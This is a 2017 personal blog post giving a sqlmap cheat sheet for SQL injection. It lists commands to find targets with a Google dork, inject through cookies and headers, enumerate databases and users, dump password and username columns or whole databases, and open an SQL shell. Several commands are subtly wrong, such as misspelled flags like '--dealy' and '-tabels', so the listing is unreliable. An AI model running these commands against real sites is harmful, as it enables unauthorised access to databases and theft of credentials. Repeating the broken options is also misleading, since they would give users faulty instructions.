 ```yaml
---
layout:		 post
title:		"sqlmap使用指南"
subtitle:	"参考了sqlmap的官方文档和网上的一些教程，手打出一篇"
date:		2017-02-20 23:14:12  +0800
author:		"Les1ie"
categories: jekyll update
---
```

> First write this article is several months ago, now post it on my blog


## sqlmap
1. `sqlmap -d ` is used to connect from your nachine to the database server's TCP port where the database management system is listening on.

## five different SQL injection types:
> Bollean-based blind
> Time-based blind
> Error-based blind
> Union query-based
> Stacked queries

## several 
1. sqlmap.py -u "url"
2. sqlmap.py -l burp.log
3. sqlmap.py -m 1.txt this is some url write in a text and sqlmap will test
4. sqlmap.py -r post_data.txt the txt file is data of post
5. sqlmap.py -g "inurl:asp?id" this is google dork
6. sqlmap.py -d "mysql//username:password@123.12.23.23:33306/databasename"

## several kind of requests
1. GET sqlmap.py -u "url"
2. POST sqlmap.py -r 1.txt 
3. POST FOR FORM sqlmap -u "url" --forms 
4. POST sqlmap.py -u "url" --data "age=24"
5. COOKIE sqlmap.py -u "url" --cookie "data" --level 2 NOTE:cookie only work when it is level2
6. User-Agent sqlmap -u "url" --user-agent="chrome 55 firefox 50" -v 3
7. Referer sqlmap.py -u "url" --referer "http://tieba.baidu.com" -v 3
8. Dealy sqlmap.py -u "url" --dealy 10
9. Timeout sqlmap.py -u "url" --timeout 10   NOTE:10seconds show timeout, default is 30s
10. Retry sqlmap.py -u "url" ---retries 10
11. Use regex `sqlmap.py -l burp.log -scope="(www)?\.target\.\(com|net|org|cn)"`
12. Avoid too much wrong requests sqlmap.py -u "url" --safe-url "url" get safe url in some time
13. Avoid too much wrong requests sqlmap.py -u "url" --safe-freq "url" get safe url every test
14. Pamera sqlmap.py -u "http://xxxx.com/id*/45" or sqlmap.py -u "url" -p "id"
15. Version of database sqlmap.py -u "url" -b
16. sqlmap.py -u "url" --banner
17. sqlmap.py -u "url" --current-db
18. sqlmap.py -u "url" --current-user
19. sqlmap.py -u "url" --users
20. sqlmap.py -u "url" --dbs
21. sqlmap.py -u "url" -tabels -D "databasename"
22. sqlmap.py -u "url" --columns -T "tablesname" -D "databasename"
23. sqlmap.py -u "url" --tables -D "databasename" --count
24. sqlmap.py -u "url" --dump -C "passwd, username" -T "tablename" -D "databasename"
25. sqlmap.py -u "url" --start 1 --stop 3 -T "tablename" -D "databasename"
26. sqlmap.py -u "url" --first 1 --last 5 
27. Get all the database sqlmap.py -u "url" --dump-all
28. Get all the database sqlmap.py -u "url" --dump-all --exclude-sysdbs Note:only get user database, bot system dbs
29. sqlmap.py -u "url" --sql-shell
30. sqlmap.py -u "url" --sql-query "select * from admin"
31. sqlmap.py -u "url" --search -D test NOTE:to search database name or -T -C
32. sqlmap.py -u "url" --schema NOTE:to show the constract of database
33. sqlmap.py -u "url" --exclude-sysdbs avoid system dbs

